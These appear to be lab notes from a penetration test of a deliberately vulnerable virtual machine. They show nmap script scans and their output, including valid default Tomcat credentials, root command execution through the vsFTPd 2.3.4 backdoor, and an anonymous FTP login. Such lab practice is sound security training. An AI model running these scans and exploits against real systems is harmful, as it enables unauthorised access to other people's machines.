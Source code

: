 # Finding Vulnerability with nmap scripts

```nmap --script auth <Target ip> -sS```

# tomcat exploit

Post-scan script results:
| creds-summary: 
|   192.168.87.109: 
|     8180/unknown: 
|       tomcat:tomcat - Valid credentials
|_      tomcat:tomcat - Valid credentials
Nmap done: 1 IP address (1 host up) scanned in 31.89 seconds

```
nmap -script malware 192.168.87.109 -sS -F

nmap -script banner 192.168.87.109 -sS -F
```

```
PORT     STATE SERVICE
21/tcp   open  ftp
| ftp-vsftpd-backdoor: 
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  BID:48539  CVE:CVE-2011-2523
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)
|     References:
|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
|       https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
|       https://www.securityfocus.com/bid/48539
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
| smtp-vuln-cve2010-4344: 
|_  The SMTP server is not Exim: NOT VULNERABLE
53/tcp   open  domain
80/tcp   open  http
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.87.109
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://192.168.87.109:80/dvwa/
|     Form id: 
|     Form action: login.php
|     
|     Path: http://192.168.87.109:80/mutillidae/index.php?page=dns-lookup.php
|     Form id: iddnslookupform
|     Form action: index.php?page=dns-lookup.php
|     
|     Path: http://192.168.87.109:80/mutillidae/index.php?page=register.php
|     Form id: id-bad-cred-tr
|_    Form action: index.php?page=register.php
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
513/tcp  open  login
514/tcp  open  shell
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
8009/tcp open  ajp13
MAC Address: 08:00:27:42:FE:60 (Oracle VirtualBox virtual NIC)
```

```nmap -script ftp-anon.nse 192.168.87.109```

```
PORT     STATE SERVICE
21/tcp   open  ftp
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown

FTP anonymous

ftp 192.168.87.109

Connected to 192.168.87.109.
220 (vsFTPd 2.3.4)
Name (192.168.87.109:kali): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```